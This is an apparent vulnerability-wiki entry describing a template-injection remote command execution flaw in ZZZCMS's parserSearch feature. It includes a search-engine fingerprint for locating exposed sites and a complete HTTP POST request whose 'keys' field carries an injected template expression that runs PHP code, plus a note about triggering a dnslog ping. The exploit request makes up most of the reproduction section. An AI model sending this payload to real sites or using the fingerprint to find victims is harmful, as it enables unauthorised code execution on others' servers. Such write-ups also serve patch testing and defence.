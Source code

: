 # ZZZCMS parserSearch remote command execution vulnerability

## Vulnerability Description

ZZZCMS parserSearch has a template injection that causes remote command execution vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">ZZZCMS</span>	

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="zzzcms"</span>

## Vulnerability reappears

Send the following request packet command to execute



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zzz-1.png)



```plain
POST /?location=search HTTP/1.1
Host: 
Content-Length: 30
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: text/plain
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=rbuhrqqhoctntnak8slkascqp1; keys=%7Bif%3A%3DPHPINFO%28%29%7D%7Bend+if%7D%0D%0A


keys={if:=PHPINFO()}{end if}
```



Execute ping dnslog



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zzz-2.png)